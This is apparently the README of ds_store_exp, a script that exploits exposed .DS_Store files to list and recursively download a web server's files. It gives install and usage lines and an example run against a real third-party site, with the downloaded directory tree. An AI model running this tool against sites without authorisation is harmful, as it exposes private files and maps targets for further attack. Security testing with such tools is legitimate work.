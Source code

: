 ### Is derived from the https://github.com/lijiejie/ds_store_exp
# ds\_store\_exp #

A **`.DS_Store`** file disclosure exploit. 

It parses .DS_Store file and downloads files recursively.

这是一个 .DS\_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地。

    Usage: python ds_store_exp.py http://www.example.com/.DS_Store

## Install ##

	pip install -r requirements.txt

## Example ##

	ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js
	
	21 directories, 48 files
